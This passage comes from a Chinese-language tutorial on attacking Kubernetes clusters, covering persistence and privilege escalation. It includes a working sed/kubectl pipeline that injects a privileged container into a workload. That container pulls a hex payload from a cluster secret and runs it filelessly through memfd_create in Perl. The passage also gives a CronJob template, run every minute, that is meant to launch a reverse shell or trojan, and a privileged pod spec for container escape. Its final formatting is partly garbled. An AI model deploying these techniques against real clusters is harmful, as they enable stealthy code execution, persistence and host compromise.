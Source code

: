 ````plain
  | sed "$ctr_line_num a\ \ \ \ \ \ - name: $ctr_name\n        image: $image\n        imagePullPolicy: IfNotPresent\n        command: [\"sh\"]\n        args: [\"-c\", \"echo \$$payload_name | perl -e 'my \$n=qq(); my \$fd=syscall(319, \$n, 1); open(\$FH, qq(>&=).\$fd); select((select(\$FH), \$|=1)[0]); print \$FH pack q/H*/, <STDIN>; my \$pid = fork(); if (0 != \$pid) { wait }; if (0 == \$pid){system(qq(/proc/\$\$\$\$/fd/\$fd))}'\"]\n        env:\n          - name: $payload_name\n            valueFrom:\n              secretKeyRef:\n                name: $secret_name\n                key: $secret_data_name\n        securityContext:\n          privileged: true\n        volumeMounts:\n        - mountPath: $mount_path\n          name: $volume_name" \
  | kubectl --kubeconfig /root/.kube/config replace -f -
````

### cronjob 持久化

CronJob 用于执行周期性的动作，例如备份、报告生成等，攻击者可以利用此功能持久化。

```plain
apiVersion: batch/v1
kind: CronJob       #使用 CronJob 对象
metadata:
  name: hello
spec:
  schedule: "*/1 * * * *"   #每分钟执行一次
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hello
            image: busybox
            imagePullPolicy: IfNotPresent
            command:
            - /bin/sh
            - -c
            - #反弹 Shell 或者木马  
          restartPolicy: OnFailure
```

## 权限提升

-   特权容器逃逸
-   Docker 漏洞
-   Linux Capabilities 逃逸  
    \### 特权容器逃逸  
    当容器启动加上--privileged 选项时，容器可以访问宿主机上所有设备。  
    而 K8s 配置文件启用了 privileged: true:  
    \`\`\`css  
    spec:  
    containers:
-   name: ubuntu  
    image: ubuntu:latest  
    securityContext:  
    privileged: true
    